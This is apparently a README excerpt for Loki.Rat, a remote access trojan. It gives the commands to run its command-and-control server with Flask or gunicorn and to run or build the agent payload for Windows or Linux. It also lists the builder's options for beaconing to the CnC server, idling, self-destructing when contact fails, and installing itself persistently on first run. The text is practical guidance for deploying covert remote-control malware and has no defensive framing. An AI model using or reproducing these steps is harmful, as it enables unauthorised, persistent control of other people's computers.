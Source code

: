 ## Server

Run with the built-in (debug) server:

```
     ./loki.py runserver -h 127.0.0.1 -p 8080 --threaded
```

Or run using gunicorn:

```
     gunicorn loki:app -b 127.0.0.1:8080 --threads 20
```

The server should now be accessible on http://127.0.0.1:8080

## Payload

Run the Python payload (update config.py to suit your needs):

```
     cd payload
     ./payload.py
```

Build a new payload to a standalone binary:

```
     ./builder.py -p Linux --server http://localhost:8080 -o payload
     ./payload
```

To see a list of supported options, run ./builder.py -h

```
     ./payload/builder.py -h
     usage: builder.py [-h] -p PLATFORM --server SERVER -o OUTPUT
                    [--hello-interval HELLO_INTERVAL] [--idle_time IDLE_TIME]
                    [--max_failed_connections MAX_FAILED_CONNECTIONS]
                    [--persistent]

     Builds a Loki.Rat payload

     optional arguments:
     -h, --help            show this help message and exit
     -p PLATFORM, --platform PLATFORM
                         Target platform (Windows, Linux).
     --server SERVER       Address of the CnC server (e.g http://127.0.0.1:8080).
     -o OUTPUT, --output OUTPUT
                         Output file name.
     --hello-interval HELLO_INTERVAL
                        Delay (in seconds) between each request to the CnC.
     --idle_time IDLE_TIME
                         Inactivity time (in seconds) after which to go idle.
                         In idle mode, the agent pulls commands less often
                         (every <hello_interval> seconds).
     --max_failed_connections MAX_FAILED_CONNECTIONS
                         The agent will self-destruct if no contact with the
                         CnC can be made <max_failed_connections> times in a
                         row.
     --persistent          Automatically install the agent on first run.
```

